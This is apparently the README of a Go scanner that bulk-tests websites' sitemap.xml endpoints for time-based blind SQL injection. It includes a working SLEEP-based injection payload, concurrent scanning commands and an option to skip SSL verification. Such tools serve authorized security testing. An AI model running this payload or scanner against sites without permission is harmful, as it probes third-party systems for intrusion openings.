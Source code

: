# SQLi sitemap.xml Scanner

This Go tool automates the detection of potential SQL Injection vulnerabilities in sitemap.xml using **time-based blind SQL injection (SLEEP function)**. It works by:

- Sending an **initial request** to measure the normal response time.
- Sending a **crafted SQL payload** to test for execution delays.
- Logging only the vulnerable URLs where execution delay is detected.
- Supporting **concurrent execution** for efficiency.
- Offering a **silent mode** to display only successful cases.

## Features
- **Skips slow URLs**: If the initial request takes more than **3 seconds**, it's skipped.
- **SQL Injection Payload**: `/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#`
- **Silent Mode (`--silent`)**: Only logs URLs where the payload execution time exceeds **8 seconds**.
- **Concurrent Execution (`-w`)**: Uses multiple workers to speed up the scanning process.
- **Bypasses SSL Certificate Verification**: Useful for testing misconfigured HTTPS.

## Installation

### Clone the repository
```sh
git clone https://github.com/yourusername/sqli-xml.git
cd sqli-xml
```

### Install dependencies
go build sqli-xml.go

## Usage
### Basic Usage
```sh
go run sqli-xml.go -l urls.txt -o output.txt
```
or
```
sqli-xml -l urls.txt -o output.txt
```

### Silent Mode (Only Show Vulnerable URLs)
```sh
go run sqli-xml.go -l urls.txt -o output.txt --silent
```

### Adjust Worker Count (Default: 12)
```sh
go run sqli-xml.go -l urls.txt -o output.txt -w 20
```

## Output Example
### Standard Mode
```
https://example.com/sitemap.xml [1.245 sec] -> https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)# [9.127 sec]
```

### Silent Mode (`--silent`)
```
https://example.com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
```

## Notes
- urls.txt must contain like : https://example.com , don't add sitemap.xml , it will add it automatically





